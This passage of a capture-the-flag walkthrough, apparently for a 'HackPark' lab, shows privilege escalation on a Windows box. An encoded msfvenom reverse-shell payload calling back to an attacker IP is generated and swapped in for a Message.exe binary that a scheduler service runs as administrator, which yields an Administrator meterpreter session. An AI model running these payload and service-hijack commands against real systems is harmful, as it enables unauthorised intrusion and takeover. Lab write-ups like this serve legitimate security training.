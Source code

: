 We already have the meterpreter reverse shell. Let's see what all processes are running.

<img src="images/06.HackPark/22.png" height="700">

We can see that there are a lot of process running. Out of them WScheduler.exe is an interesting process because we can try to elevate our privileges by using the scheduled service. If we navigate to the path of SystemScheduler, there are a lot of processes. And when we navigate to events, we can see the log file 20198415519.INI_LOG.txt.

<img src="images/06.HackPark/23.png" height="700">

<img src="images/06.HackPark/24.png" height="500">

When we see the contents inside the log file, there is a specific process Message.exe running as administrator. So, let's try to replace this Message.exe with our malicious exe file with the same name.

<img src="images/06.HackPark/25.png" height="600">

We will generate a payload using msfvenom.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.10.164 LPORT=5555 -f exe -o Message.exe
```

Now we will background the current meterpreter session.

```
bg
```

Now set the port to 5555 and run the exploit in background.

```
set lport 5555

exploit -j
```

Now, get back to the first meterpreter session.

```
sessions -l

sessions -i 1
```

Navigate to the path C:\Program Files (x86)\SystemScheduler. Now, move the Message.exe file to some other location.

```
mv Message.exe C:\Windows
```

Now upload the malicious file that we just created using msfvenom.

```
upload Message.exe
```

Keep the current meterpreter session to backround and check the sessions.

```
bg

sessions -l
```

We can find a new session opened as the user Administrator.

<img src="images/06.HackPark/26.png">

We now got a reverse shell as root!

